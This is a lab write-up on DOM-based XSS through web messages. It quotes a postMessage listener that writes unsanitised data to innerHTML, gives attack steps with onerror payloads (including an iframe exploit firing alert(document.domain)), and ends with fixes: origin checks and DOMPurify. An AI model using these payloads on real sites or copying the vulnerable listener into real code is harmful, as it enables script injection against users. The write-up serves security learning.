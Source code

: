 ## DOM-based vulnerabilities

### Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
-Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
```
If you can open the target page in an iframe or another tab, you can inject:

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```


### Fix
Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
Sanitize data (e.g., DOMPurify) before inserting into the DOM:

document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
Avoid using innerHTML unless necessary — use textContent for plain text.
```